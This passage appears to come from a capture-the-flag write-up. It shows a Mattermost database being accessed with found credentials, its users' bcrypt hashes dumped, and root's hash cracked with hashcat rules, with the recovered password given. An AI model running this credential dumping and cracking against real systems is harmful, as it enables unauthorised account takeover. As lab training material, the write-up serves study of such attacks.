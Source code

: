Using the credentials found (**mmuser:Crack_The_MM_Admin_PW**) connected to **mattermost** database and, at users table, found some password hashes, being **root** the only with **system_admin** permissions.

```output
MariaDB [mattermost]> select Username,Password,Roles from Users;
+----------------------------------+--------------------------------------------------------------+--------------------------+
| Username                         | Password                                                     | Roles                    |
+----------------------------------+--------------------------------------------------------------+--------------------------+
| jdoe                             | $2a$10$qmuCH.AHht/dUGLd8ZyxMOMeZl6nU67B5okAiC0Vx44isKs5y6nkq | system_user              |
| surveybot                        |                                                              | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | system_user              |
| channelexport                    |                                                              | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | system_user              |
+----------------------------------+--------------------------------------------------------------+--------------------------+
```

As mentioned in the Internal Team, root's password wouldn't be in a dictionary like RockYou but could be a variation of `PleaseSubscribe!` and that **``hashcat` rules** could be the way to crack it. After some research found the following syntax:

- Created a file `basicpwd.txt` containing string `PleaseSubscribe!`;
- Used the file `best64.rule` which has one of the most popular password variations.

Executing it directly with the correct hash type (3200 - bcrypt), was able to find the password **PleaseSubscribe!21**

```bash
$ hashcat -a 0 -m 3200 hash basicpwd.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz, 5847/5911 MB (2048 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
```